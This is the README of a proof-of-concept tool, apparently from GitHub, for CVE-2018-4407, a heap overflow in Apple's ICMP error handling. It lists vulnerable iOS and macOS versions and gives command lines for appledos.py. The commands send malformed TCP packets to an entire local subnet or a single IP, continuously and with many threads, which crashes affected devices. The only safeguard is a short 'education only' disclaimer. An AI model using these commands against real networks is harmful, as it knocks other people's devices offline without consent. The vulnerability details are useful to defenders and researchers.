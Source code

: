# AppleDOS (CVE-2018-4407)

Based on CVE-2018-4407 (https://lgtm.com/blog/apple_xnu_icmp_error_CVE-2018-4407), this [tweet](https://twitter.com/ihackbanme/status/1057811965945376768), and this [video](https://twitter.com/kevin_backhouse/status/1057352656560287746). The bug is heap overflow vulnerability in bad packet handling through ICMP response message.

![](demo.gif)

This POC will crashes the vulnerable Apple devices by sending bad TCP packet data containing long TCP/IP header options to overflow the ICMP message when device try to send out the error message. You need the ability to send network packet data directly to the device (e.g. on the same local network).

The following operating system versions and devices are vulnerable:
- Apple iOS 11 and earlier: all devices
- Apple macOS High Sierra, up to and including 10.13.6: all devices
- Apple macOS Sierra, up to and including 10.12.6: all devices
- Apple OS X El Capitan and earlier: all devices

## WARNING

FOR EDUCATION ONLY. DON'T DO ANYTHING ILLEGAL WITH THIS SCRIPT. THE AUTHOR IS NOT RESPONSIBLE FOR ANY MALICIOUS ACTS OR DAMAGE FROM THIS SCRIPT.

## Example

Make sure you have Python 3 and scapy.

```
pip install scapy
# or
pip3 install scapy
```

You may need to run the script as root.

Send bad packet to 192.168.1.0/24 subnet.

```
sudo ./appledos.py 192.168.1.0/24
```

Shows IP after packet sent.

```
sudo ./appledos.py --verbose 192.168.1.0/24
```

Send bad packet to 192.168.1.0/24 subnet continuously.

```
sudo ./appledos.py --continuous 192.168.1.0/24
```

Change destination port (default: 80).

```
sudo ./appledos.py --continuous --port 22 192.168.1.0/24
```

Send bad packet to only one IP.

```
sudo ./appledos.py 192.168.1.118
```

Set maximum workers (default: 100).

```
sudo ./appledos.py --worker 10 192.168.1.0/24
```

## Note

This script is using scapy and it has know issue for handling `/dev/bpf` (Berkeley Packet Filter) when sending packet data from OS like macOS with multi-thread. If you encounter `No /dev/bpf handle is available`, try to reduce the worker number to 1 or 2. Or, you can just use Linux like in the demonstration video.
